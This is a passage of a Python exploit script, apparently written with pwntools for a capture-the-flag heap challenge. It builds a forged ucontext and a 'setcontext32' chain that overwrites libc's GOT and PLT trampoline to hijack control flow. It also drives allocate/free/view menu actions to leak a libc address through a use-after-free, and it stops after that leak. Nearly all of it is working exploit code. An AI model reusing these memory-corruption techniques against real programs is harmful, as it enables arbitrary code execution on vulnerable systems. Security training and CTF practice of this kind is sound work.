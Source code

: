 ```python
    b[0x60:0x68] = p64(r15)

    b[0xA8:0xB0] = p64(rip)
    b[0x70:0x78] = p64(rsi)
    b[0x68:0x70] = p64(rdi)
    b[0x98:0xA0] = p64(rcx)
    b[0x28:0x30] = p64(r8)
    b[0x30:0x38] = p64(r9)
    b[0x88:0x90] = p64(rdx)

    return b


def setcontext32(libc: ELF, **kwargs) -> (int, bytes):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt_trampoline = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    return got, flat(
        p64(0),
        p64(got + 0x218),
        p64(libc.symbols["setcontext"] + 32),
        p64(plt_trampoline) * 0x40,
        create_ucontext(got + 0x218, rsp=libc.symbols["environ"] + 8, **kwargs),
    )


def main():
    io = start_conn()

    def new(idx, size, first_payload):
        io.sendlineafter(b"> ", b"1")
        io.sendlineafter(b"> ", idx)
        io.sendlineafter(b"> ", size)
        io.sendlineafter(b"> ", first_payload)

    def delete(idx):
        io.sendlineafter(b"> ", b"2")
        io.sendlineafter(b"> ", idx)

    def edit(idx, content):
        io.sendlineafter(b"> ", b"3")
        io.sendlineafter(b"> ", idx)
        io.sendlineafter(b"> ", content)

    def view(idx):
        io.sendlineafter(b"> ", b"4")
        io.sendlineafter(b"> ", idx)
        return io.recvuntil("You").split(b'\n')[0]

    def exit():
        io.sendlineafter("> ", "5")


    new(b"1", b"24", b"A" * 0x4)
    new(b"3", b"1010", b"C" * 0x8)
    new(b"2", b"1200", b"B" * 0x4)
    new(b"4", b"1010", b"C" * 0x8)

    delete(b'2')
    delete(b'4')
    delete(b'3')

    libc_leak = view(b"2")
    libc_leak_int = int.from_bytes(libc_leak, 'little')
```